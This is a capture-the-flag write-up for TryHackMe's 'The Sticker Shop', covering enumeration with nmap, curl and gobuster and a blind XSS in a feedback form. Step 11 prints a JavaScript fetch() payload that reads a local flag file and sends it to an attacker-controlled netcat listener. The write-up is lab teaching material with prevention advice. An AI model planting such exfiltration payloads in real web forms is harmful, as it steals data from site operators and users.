







# The Sticker Shop - TryHackMe CTF Writeup

## Overview
This writeup covers the step-by-step solution for "The Sticker Shop" challenge on TryHackMe, demonstrating web application security testing and XSS exploitation techniques.

## Methodology

### 1. Host Discovery
First, we verify the target host is online using ping:
```bash
ping <target-ip>
```


*Figure 1: Confirming the target host is online using ping*

### 2. Initial Flag Testing
Test the flag endpoint directly to understand the server response:
```bash
curl -I http://<target-ip>:8080/flag
```


*Figure 2: Testing the flag endpoint with curl to understand server behavior*

**Findings**: The curl request reveals server information and response status, providing initial insights into the application structure.

### 3. Port Scanning
Perform comprehensive port enumeration to identify open services:
```bash
nmap -sV -T4 <target-ip>
```


*Figure 3: Nmap scan results showing the web server on port 8080*

**Key Discovery**: The web server is running on port 8080, not the standard HTTP port 80.

### 4. Source Code Analysis
Examine the HTML source code of the main page for hidden information:
```bash
view-source:http://<target-ip>:8080
```

**Results**: No useful information found in the source code - no hidden comments or developer notes.

### 5. Directory Enumeration
Use DirBuster to discover hidden directories and files. <br>
Alternatively can also use gobuster
```bash
gobuster dir -u http://<target-ip>:8080 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt
```


*Figure 4: DirBuster directory enumeration*

**Results**: No additional directories found beyond the main application.

### 6. Feedback Form Investigation
Explore the feedback page which appears to be a potential injection point:


*Figure 5: The feedback form interface - potential XSS injection point*

### 7. Basic XSS Testing
Test basic XSS payloads in the feedback form:
```html
<script>alert('XSS')</script>

```

**Observation**: No immediate error messages or visible output, suggesting the XSS might be:
- Filtered or blocked
- Hidden from view
- Executed in a different context

### 8. Burp Suite Proxy Analysis
Use Burp Suite to intercept and analyze requests for deeper investigation:


*Figure 6: Burp Suite proxy intercepting and analyzing requests*

**Analysis**: Monitor feedback form submissions and analyze response headers for any unusual behavior. Found that xss was hidden.

### 9. Advanced XSS Strategy
Since basic XSS wasn't working, we need a more sophisticated approach. The key insight is that XSS is hidden or require JavaScript fetch techniques.

### 10. Setting Up Data Exfiltration
Establish a netcat listener on a custom port to receive exfiltrated data:
```bash
nc -lvnp 8000
```


*Figure 7: Setting up netcat listener on port 8000 for data exfiltration*

### 11. Crafting Advanced Payload
Create a JavaScript payload that fetches data from localhost and sends it to our listener:


*Figure 8: Testing advanced XSS payload with JavaScript fetch*

**Payload Explanation**:
```javascript
fetch('http://127.0.0.1:8080/flag.txt')
  .then(response => response.text())
  .then(data => fetch('http://<attacker-ip>:8000/' + encodeURIComponent(data)))
```

This payload:
1. Fetches the flag from the local server
2. Converts the response to text
3. Sends the flag data to our netcat listener via another fetch request

### 12. Successful Exploitation
Execute the attack and receive the flag through the netcat listener:


*Figure 9: Successfully receiving the flag through the netcat listener*

## Key Technical Insights

1. **Non-Standard Port**: The application runs on port 8080 instead of 80
2. **Hidden XSS**: The XSS vulnerability wasn't immediately visible
3. **JavaScript Fetch**: Modern JavaScript can be used for data exfiltration
4. **Localhost Access**: Internal endpoints accessible from localhost
5. **Data Exfiltration**: Using fetch() to send data to external listeners

## Tools Used
- **Ping**: Host discovery
- **Curl**: Initial endpoint testing
- **Nmap**: Port scanning and service enumeration
- **DirBuster/Gobuster**: Directory enumeration
- **Burp Suite**: Request interception and analysis
- **Netcat**: Setting up listeners for data exfiltration
- **Browser Developer Tools**: Analyzing JavaScript execution

## Learning Points
- Always check non-standard ports during enumeration
- XSS vulnerabilities can be hidden and require creative exploitation
- JavaScript fetch() is a powerful tool for data exfiltration
- Internal endpoints may be accessible only from localhost
- Proper listener setup is crucial for successful data exfiltration

## Prevention
To prevent such vulnerabilities:
- Implement proper input validation and sanitization
- Use Content Security Policy (CSP) headers
- Validate and sanitize all user inputs
- Implement proper access controls for internal endpoints
- Regular security testing and code reviews

